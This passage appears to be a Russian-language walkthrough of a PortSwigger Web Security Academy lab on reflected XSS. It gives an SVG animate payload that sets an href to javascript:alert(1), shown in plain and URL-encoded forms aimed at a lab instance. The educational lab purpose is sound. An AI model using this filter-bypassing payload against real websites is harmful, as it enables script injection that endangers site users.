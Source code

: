 Перейдем на уязвимый ресурс, и введем следующий пэйлоад в общем виде
```
https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```
В URL кодировке он будет выглядеть следующим образом
```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```
И в нашем конкретном случае для лабораторной работы в URL кодировке будет выглядеть следующим образом
```
https://0ad400f103292ad180401c50006a00d4.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```
И видим, что пэйлоад отработал, и получаем уведомление об успещно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/13.%20Reflected%20XSS%20with%20event%20handlers%20and%20href%20attributes%20blocked/pics%20for%20walkthrough/1.png)
